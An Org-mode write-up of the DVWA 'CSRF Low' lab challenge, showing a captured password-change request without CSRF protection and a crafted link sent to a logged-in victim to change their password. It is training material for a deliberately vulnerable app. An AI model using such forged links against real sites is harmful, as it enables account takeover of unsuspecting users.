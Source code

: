 #+TITLE: DVWA - CSRF Low
#+AUTHOR: Leonardo Tamiano

* Description
  In this first challenge the endpoint to change password is not
  protected at all. Consider the following request, which is a valid
  request to change one's password. 

  #+begin_example
GET /vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change HTTP/1.1
Host: evil
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/csrf/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=etov4q0s936tquopvb3b56app0; security=low
Connection: close
  #+end_example

  All we need to do is to create a link which triggers this request.

* Solution
  Simply send the following link to an authenticated user, force him
  to click it, and you will force them to change their password with
  the password of your choosing.

  #+begin_example
http://evil/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change
  #+end_example
